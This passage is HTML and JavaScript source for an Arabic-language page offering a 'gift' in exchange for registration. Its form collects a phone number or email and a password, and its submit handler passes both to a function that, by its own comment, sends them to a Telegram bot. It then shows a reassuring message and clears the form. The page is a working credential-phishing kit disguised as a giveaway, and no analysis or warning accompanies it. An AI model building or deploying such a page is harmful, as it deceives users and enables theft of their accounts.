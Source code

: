             display: none;
        }
        .success {
            background-color: #dff0d8;
            color: #3c763d;
        }
        .error {
            background-color: #f2dede;
            color: #a94442;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>سجل للحصول على الهديه</h1>
        <form id="registrationForm">
            <div class="form-group">
                <label for="identifier">رقم الهاتف أو البريد الإلكتروني</label>
                <input type="text" id="identifier" required>
            </div>
            <div class="form-group">
                <label for="password">كلمة المرور</label>
                <input type="password" id="password" required>
            </div>
            <button type="submit">تسجيل</button>
        </form>
        <div id="message" class="message"></div>
    </div>

    <script>
        document.getElementById('registrationForm').addEventListener('submit', function(e) {
            e.preventDefault();
            
            const identifier = document.getElementById('identifier').value;
            const password = document.getElementById('password').value;
            const messageDiv = document.getElementById('message');
            
            // إرسال البيانات إلى بوت تيليجرام
            sendToTelegramBot(identifier, password)
                .then(response => {
                    messageDiv.textContent = "جاري تنفيذ طلبك!";
                    messageDiv.className = "message success";
                    messageDiv.style.display = "block";
                    
                    // مسح النموذج بعد الإرسال
                    document.getElementById('registrationForm').reset();
                })
                .catch(error => {
                    messageDiv.textContent = "حدث خطأ أثناء إرسال البيانات. يرجى المحاولة مرة أخرى.";
                    messageDiv.className = "message error";
                    messageDiv.style.display = "block";
                    console.error('Error:', error);
                });
        });
